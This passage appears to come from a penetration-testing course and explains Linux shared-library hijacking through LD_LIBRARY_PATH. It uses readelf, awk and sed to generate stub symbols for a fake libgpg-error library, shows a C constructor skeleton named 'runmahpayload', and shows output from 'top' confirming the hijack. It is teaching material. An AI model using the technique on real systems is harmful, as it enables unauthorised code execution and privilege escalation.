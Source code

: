 Once we've done that, we pipe the resulting lines to awk to capture only a specific column of the lines returned, while prepending "int " to it. This will help us more easily define variables in our code to represent the symbols we are missing. Finally, we pipe that output to sed to replace the version information with a semicolon in order to finalize the variable definitions.

```
offsec@linuxvictim:~/ldlib$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
int gpgrt_onclose;
int _gpgrt_putc_overflow;
int gpgrt_feof_unlocked;
...
int gpgrt_fflush;
int gpgrt_poll;
```

> Listing 50 - The output gets the symbols associated with our hijacked library and makes C variables for them as output

The result is a list of variable definitions, one for each missing symbol, that we can copy and paste just under our initial constructor definition in our hax.c source code file.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> // for setuid/setgid

static void runmahpayload() __attribute__((constructor));

int gpgrt_onclose;
int _gpgrt_putc_overflow;
int gpgrt_feof_unlocked;
...
```

> Listing 51 - The new symbols in our source code

After recompiling and setting the _LD_LIBRARY_PATH_ variable again, this time when we run top, we get the result we wanted.

```
offsec@linuxvictim:~/ldlib$ top
top: /home/offsec/ldlib/libgpg-error.so.0: no version information available (required by /lib/x86_64-linux-gnu/libgcrypt.so.20)
DLL HIJACKING IN PROGRESS 
...
```

> Listing 52 - Our hijacking worked properly

Unfortunately, we notice an obvious error message about the shared library's version information. Not all supporting libraries require version information, so this does not always occur. If we were to hijack a different library, we may not receive this error. In this case, however, it seems that _libgcrypt_ does require version information in associated libraries. Thankfully, we can fix this with the help of a map[10](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5300-10) file that identifies particular symbols as being associated with a given version of the library.
